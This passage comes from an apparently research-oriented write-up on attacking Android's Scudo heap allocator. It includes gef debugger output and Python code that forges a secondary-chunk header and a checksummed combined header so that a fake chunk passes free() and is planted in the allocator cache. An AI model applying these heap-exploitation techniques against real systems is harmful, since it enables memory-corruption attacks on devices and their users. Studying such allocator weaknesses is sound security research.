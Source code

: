 Setting a breakpoint right before `free` yields:
```
gef➤  i r rdi
    rdi            0x7babf29407f0      0x7babf29407f0
gef➤  x/8gx $rdi-0x40
    0x7babf29407b0:	0x00007babf29407b0	0x00007babf29407b0  <--
    0x7babf29407c0:	0x00007babf29407f0	0x0000000000080040    |-- large header
    0x7babf29407d0:	0xffffffffffffffff	0xffffffffffffffff  <--
    0x7babf29407e0:	0xd82d000000000100	0x0000000000000000  <-- combined header + 8 bytes padding
```
Again, if we pass all the checks, i.e. provided a correct large chunk, then the app will **not** abort and not cause a segfault. Also observe that the `LargeBlock::Header::Prev` and `LargeBlock::Header::Next` both point to the beginning of `LargeBlock::Header`. This is because the header has to pass `InUseChunks.remove(H)`.

The header could be crafted in the following way:
```py
# Craft large header
lhdr = large_header()
lhdr.Prev = pointer # ensure that DoublyLinkedList::remove is nop
lhdr.Next = pointer
lhdr.CommitBase = pointer + 0x30 + 0x10 # pointer to user data
lhdr.CommitSize = 0x400 * 0x200 + 0x40 # data + headers
lhdr.MapBase = 0xffffffffffffffff   # irrelevant; for debugging reasons set to -1
lhdr.MapSize = 0xffffffffffffffff   # irrelevant; for debugging reasons set to -1

# Combined header
combined_header = unpacked_header()
combined_header.ClassId = 0 # Secondary allocations have class id 0
combined_header.State = 1   # = allocated
combined_header.SizeOrUnusedBytes = 0   # irrelevant
combined_header.OriginOrWasZeroed = 0   # = malloc'ed chunk
combined_header.Offset = 0  # irrelevant (for now)
combined_header.Checksum = utils.android_crc32(
    cookie,
    pointer + 0x30 + 0x10,  # user data pointer: sizeof (LargeBlock::Header) = 0x30, sizeof (Chunk::UnpackedHeader) = 0x8, 8 bytes padding -> 0x40
    combined_header.pack()
)

# Send chunk
data = b'\x42' * 0x400 * 0x200 # 512KiB to trigger secondary allocation
io.forward(lhdr.bytes() + combined_header.bytes() + p64(0) + data)
```

Notice that [`canCache`](https://cs.android.com/android/platform/superproject/+/android-12.0.0_r31:external/scudo/standalone/secondary.h;drc=b45a2ea782074944f79fc388df20b06e01f265f7;l=287) imposes an upper bound on `LargeBlock::Header::CommitSize`, which is [`2 << 20`](https://cs.android.com/android/platform/superproject/+/android-12.0.0_r31:external/scudo/standalone/allocator_config.h;l=113;drc=b45a2ea782074944f79fc388df20b06e01f265f7;bpv=0;bpt=1). Observe that there is no lower bound to `LargeBlock::Header::CommitSize` that restricts us from introducing a fake chunk into the cache (see [later](#neat-little-side-effect) for more on a lower bound)! (see [future work](#future-work) for an attack idea that abuses the fact that `malloc` calls do not have any control over the size field. This implies that allocations that are in size range of the primary will be taken from the primary. Setting `fake.CommitSize <= <max primary allocation size>` will result in a dead cache entry, because it will be smaller than **any** requested size allocated by the secondary assuming that the primary did not fail to allocate)
